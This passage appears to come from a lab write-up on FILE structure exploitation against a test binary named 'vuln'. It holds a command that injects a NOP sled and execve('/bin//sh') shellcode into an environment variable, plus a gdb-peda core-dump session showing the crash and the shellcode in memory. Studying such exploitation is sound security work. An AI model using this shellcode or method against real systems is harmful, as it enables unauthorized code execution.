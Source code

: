 ```c
        ptr = getenv(argv[1]); /* get env var location */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

and called with `invoke.sh`:

```
$ ./invoke.sh -e SHELLCODE=$(python -c 'print "\x90"*15 + "\x31\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0@\xcd\x80"') /usr/bin/ltrace ./vuln abc $(python exploit.py)
__libc_start_main(0x8048576, 3, 0xffffdd84, 0x8048680 <unfinished ...>
```
```
$ gdb -c core -q
[New LWP 42081]
Core was generated by `/home/student/Research/FILE_struct_exp/vuln abc kkkk***************************'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xf7e2177c in ?? ()
gdb-peda$ symbol-file vuln
Reading symbols from vuln...done.
gdb-peda$ sharedlibrary
Reading symbols from /lib32/libc.so.6...(no debugging symbols found)...done.
Reading symbols from /lib/ld-linux.so.2...(no debugging symbols found)...done.
gdb-peda$ thread apply all bt full
Thread 1 (LWP 42081):
#0  0xf7e2177c in vfprintf () from /lib32/libc.so.6
No symbol table info available.
#1  0xf7e29b58 in fprintf () from /lib32/libc.so.6
No symbol table info available.
#2  0x08048664 in main (argc=0x3, argv=0xffffdd34) at vuln.c:27
        fp = 0xffffda68
        n = 0x2a2a2b22
        buf = "AAAA", '\000' <repeats 28 times>, "U\231\004\b\\\231\004\b", '\000' <repeats 16 times>, "\340\354\372\367", '\000' <repeats 16 times>, "\004\242\004\b\377\377\377
\377\377\377\377\377", '\000' <repeats 64 times>, "`\310\372\367", '\000' <repeats 99 times>
#3  0xf7df1e81 in __libc_start_main () from /lib32/libc.so.6
No symbol table info available.
#4  0x08048492 in _start ()
No symbol table info available.
gdb-peda$ print (char ***) & environ
$1 = (char ***) 0xf7fafdd8 <environ>
gdb-peda$ p $1[0][0]@100
$2 = {
  0xffffdf5f "SHELLCODE=", '\220' <repeats 15 times>, "\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀", 0xffffdf95 "TERM=screen",
  0xffffdfa1 "PWD=/home/student/Research/FILE_struct_exp", 0x0,
  0x20 <error: Cannot access memory at address 0x20>,
  0xf7fd5b50 <__kernel_vsyscall> "QRU\211\345\017\064̀]ZYÐ\220\220\220\353\r", '\220' <repeats 13 times>, "X\270w", 0x21 <error: Cannot access memory at address 0x21>,
  0xf7fd5000 "\177ELF\001\001\001",
  0x10 <error: Cannot access memory at address 0x10>,
  0xf8bfbff <error: Cannot access memory at address 0xf8bfbff>,
  0x6 <error: Cannot access memory at address 0x6>,
[----snip----]
```


[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/
